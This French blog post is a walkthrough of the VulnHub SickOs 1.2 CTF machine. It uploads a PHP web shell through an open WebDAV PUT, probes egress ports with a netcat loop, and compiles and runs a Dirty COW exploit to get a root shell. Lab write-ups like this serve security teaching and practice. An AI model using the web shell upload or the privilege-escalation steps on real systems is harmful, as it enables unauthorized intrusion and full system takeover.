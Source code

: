 ```yaml
---
title: "Solution du CTF SickOs 1.2 de VulnHub"
tags: [CTF, VulnHub]
---
```


[SickOs: 1.2](https://www.vulnhub.com/entry/sickos-12,144/) est le second et dernier opus de la série. Il s'agit d'un boot2root Linux.

Avce Nmap on voit deux ports ouverts, les autres étant filtrés :

```
Nmap scan report for 192.168.57.4
Host is up (0.00083s latency).
Not shown: 65533 filtered ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 5.9p1 Debian 5ubuntu1.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   1024 66:8c:c0:f2:85:7c:6c:c0:f6:ab:7d:48:04:81:c2:d4 (DSA)
|   2048 ba:86:f5:ee:cc:83:df:a6:3f:fd:c1:34:bb:7e:62:ab (RSA)
|_  256 a1:6c:fa:18:da:57:1d:33:2c:52:e4:ec:97:e2:9e:af (ECDSA)
80/tcp open  http    lighttpd 1.4.28
|_http-server-header: lighttpd/1.4.28
|_http-title: Site doesn't have a title (text/html).
MAC Address: 08:00:27:CE:36:33 (Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Une énumération sur le LigHTTPd (avec `gobuster`) ne retourne pas grand chose si ce n'est un dossier `test` vide. Jetons un œil aux méthodes HTTP autorisées :

```http
$ curl -XOPTIONS -I http://192.168.57.4/test/
HTTP/1.1 200 OK
DAV: 1,2
MS-Author-Via: DAV
Allow: PROPFIND, DELETE, MKCOL, PUT, MOVE, COPY, PROPPATCH, LOCK, UNLOCK
Allow: OPTIONS, GET, HEAD, POST
Content-Length: 0
Date: Fri, 10 Feb 2023 16:46:23 GMT
Server: lighttpd/1.4.28
```

## Du côté de chez DAV

On est clairement en présence d'un `WebDAV`. J'ai tenté d'uploader un fichier avec `cadaver` qui est un peu l'équivalent de la commande ftp pour `WebDAV`.

Malheureusement on obtient une erreur peu parlante. J'ai essayé aussi avec `cURL` (option `-T`) et J'ai capturé la requête et la réponse avec Wireshark :

```http
PUT /test/test.txt HTTP/1.1
Host: 192.168.57.4
User-Agent: curl/7.81.0
Accept: */*
Content-Length: 5
Expect: 100-continue

HTTP/1.1 417 Expectation Failed
Content-Type: text/html
Content-Length: 363
Connection: close
Date: Fri, 10 Feb 2023 17:18:32 GMT
Server: lighttpd/1.4.28

<?xml version="1.0" encoding="iso-8859-1"?>
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN"
         "http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">
<html xmlns="http://www.w3.org/1999/xhtml" xml:lang="en" lang="en">
 <head>
  <title>417 - Expectation Failed</title>
 </head>
 <body>
  <h1>417 - Expectation Failed</h1>
 </body>
</html>
```

WebDAV peut nécessiter une authentification simple (*Authorization Basic*) mais difficile de dire s'il s'agit de ça ici.

Je me suis basé sur cette article qui indique différentes commandes `cURL` pour dialoguer avec WebDAV : [WebDAV with cURL | Code](https://code.blogs.iiidefix.net/posts/webdav-with-curl/)

J'arrive par exemple à créer un sous-dossier :

```bash
curl -X MKCOL http://192.168.57.4/test/yolo/
```

Etrange. Dans la requête générée plus tôt par `cURL` on peut voir un entête `Expect` et le message d'erreur retourné semble y faire référence.

On va essayer plus basique en forgeant la requête avec `requests` :

```python
>>> import requests
>>> requests.put("http://192.168.57.4/test/shell.php", data='<?php system($_GET["cmd"]); ?>')
<Response [201]>
```

Youpi, ça fonctionne !

```http
PUT /test/shell.php HTTP/1.1
Host: 192.168.57.4
User-Agent: python-requests/2.26.0
Accept-Encoding: gzip, deflate, br
Accept: */*
Connection: keep-alive
Content-Length: 30

<?php system($_GET["cmd"]); ?>

HTTP/1.1 201 Created
Content-Length: 0
Date: Fri, 10 Feb 2023 17:50:50 GMT
Server: lighttpd/1.4.28
```

## Vache folle

Les ports de la machine sont filtrés et ça semble aussi compliqué d'obtenir un reverse shell.

Netcat est présent sur la machine, on peut faire un scan de notre IP depuis la VM et écouter avec Wireshark ce qui est autorisé.

On peut se baser sur la top liste Nmap des 10 ports les plus communs histoire que ça ne prenne pas des plombes :

```bash
ports=( 21 22 23 25 80 110 139 443 445 3389 ) ; for p in "${ports[@]}" ; do nc -z -w 2 -v 192.168.57.1 $p ; done
```

On observe alors un paquet avec flag SYN sur notre port 443.

Via un reverse-ssh sur ce port on peut uploader et exécuter linpeas qui indique que le système est vulnérable à `Dirty COW` ou à la vulnérabilité `chkrootkit`.

J'ai utilisé le premier exploit. Il est ici instable, après quelques secondes la machine part en kernel panic, il faut prévoir le coup si on souhaite de la persistance.

```bash
www-data@ubuntu:/tmp$ PATH=/usr/lib/gcc/i686-linux-gnu/4.6/:$PATH gcc -o cowroot cowroot.c -lpthread
cowroot.c: In function 'procselfmemThread':
cowroot.c:98:9: warning: passing argument 2 of 'lseek' makes integer from pointer without a cast [enabled by default]
/usr/include/unistd.h:335:16: note: expected '__off_t' but argument is of type 'void *'
cowroot.c: In function 'main':
cowroot.c:141:5: warning: format '%d' expects argument of type 'int', but argument 2 has type '__off_t' [-Wformat]
www-data@ubuntu:/tmp$ ./cowroot
DirtyCow root privilege escalation
Backing up /usr/bin/passwd to /tmp/bak
Size of binary: 41284
Racing, this may take a while..
/usr/bin/passwd overwritten
Popping root shell.
Don't forget to restore /tmp/bak
thread stopped
thread stopped
root@ubuntu:/tmp# id
uid=0(root) gid=33(www-data) groups=0(root),33(www-data)
```

Pour la faille chkrootkit il y a un exemple dans la [Solution du CTF SecTalks: BNE0x02 - Fuku de VulnHub]({% link _posts/2023-01-04-Solution-du-CTF-SecTalks-BNE0x02-Fuku-de-VulnHub.md %}#fuku)

*Publié le 11 février 2023*
